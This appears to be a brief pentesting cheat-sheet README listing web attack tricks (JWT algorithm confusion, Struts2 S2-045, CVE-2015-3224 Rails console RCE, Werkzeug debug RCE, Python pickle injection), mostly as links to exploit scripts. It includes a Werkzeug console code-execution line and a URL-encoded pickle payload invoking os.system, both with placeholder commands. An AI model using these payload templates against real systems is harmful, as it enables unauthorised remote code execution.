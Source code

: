 # JWT

create token with HS256 + public key (.pem)

[jwt.rb](https://github.com/redirected/tricks/blob/master/jwt.rb)

[link](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

# Apache Struts2 S2-045

[s02-045.txt](https://github.com/redirected/tricks/blob/master/s02-045.txt)

# CVE-2015-3224

[ruby-on-rails-web-console2-rce.rb](https://github.com/0x00-0x00/CVE-2015-3224/blob/master/ruby-on-rails-web-console2-rce.rb)

[CVE-2015-3224](https://github.com/redirected/tricks/blob/master/CVE-2015-3224)

# Werkzeug DEBUG

[Werkzeug RCE](https://blog.keigher.ca/2014/12/remote-code-execution-on-misconfigured.html)

import subprocess; subprocess.call(["payload"]);

# Unickle
[Pickle python ijection](http://xhyumiracle.com/python-pickle-injection/)

'c__builtin__%0Aeval%0Ap1%0A(S"os.system(\"payload")"%0Ap2%0Atp3%0ARp4%0A.%0A'
